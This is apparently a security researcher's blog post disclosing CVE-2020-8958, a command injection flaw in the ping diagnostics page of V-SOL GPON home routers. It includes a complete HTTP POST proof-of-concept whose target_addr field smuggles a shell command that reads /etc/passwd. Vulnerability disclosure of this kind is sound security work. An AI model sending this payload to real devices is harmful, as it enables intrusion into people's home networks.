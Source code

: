 ```yaml
---
title: Command injection vulnerability in V-SOL home networking devices
date: 2020-07-15T13:36:55+05:30
author: Karan Saini
excerpt: This article details an arbitrary OS command injection vulnerability present in the management portal for several models of GPON home routers manufactured by Guangzhou V-SOLUTION.
layout: post
permalink: /os-command-injection-v-sol/
image: /media/v-sol.png
categories:
  - Security
tags:
  - CVE-2020-8958
  - GPON
---
```

# Command injection vulnerability in V-SOL home networking devices
This article details an arbitrary OS command injection vulnerability present in the management portal for several GPON home routers manufactured by Guangzhou V-SOLUTION (&#8220;V-SOL&#8221;). V-SOL manufactures a variety of FTTH and FTTB products, including residential gateway devices, network switches, line termination devices, and more.

This vulnerability was discovered and reported to the vendor in February of 2020, and to date, a patch has not been released. I decided that I would publish details about this specific vulnerability shortly after researchers Pierre Kim and Alexandre Torres published their own work documenting what they surmised to be <a aria-label="undefined (opens in a new tab)" href="https://pierrekim.github.io/blog/2020-07-07-cdata-olt-0day-vulnerabilities.html" target="_blank" rel="noreferrer noopener">potential backdoor accounts</a> present in optical line termination devices manufactured by vendor &#8216;C-Data&#8217; — as well as those <a aria-label="undefined (opens in a new tab)" href="https://pierrekim.github.io/blog/2020-07-14-v-sol-olt-0day-vulnerabilities.html" target="_blank" rel="noreferrer noopener">manufactured by V-SOL.</a>

## CVE-2020-8958

The vulnerable endpoint is part of the &#8216;PING diagnosis&#8217; functionality that is available on the device management portal, located at `<IP_ADDR>/boaform/admin/formPing`. Arbitrary command execution can be achieved by sending a crafted `HTTP` `POST` request containing shell meta-characters to the PING diagnosis endpoint.

~~~
POST http://<IP_ADDR>/boaform/admin/formPing HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://<IP_ADDR>
Connection: keep-alive
Referer: http://<IP_ADDR>/diag_ping_admin_en.asp
Upgrade-Insecure-Requests: 1
Host: <IP_ADDR>

target_addr=%3Bcat%20%2Fetc%2Fpasswd&waninf=LAN
~~~
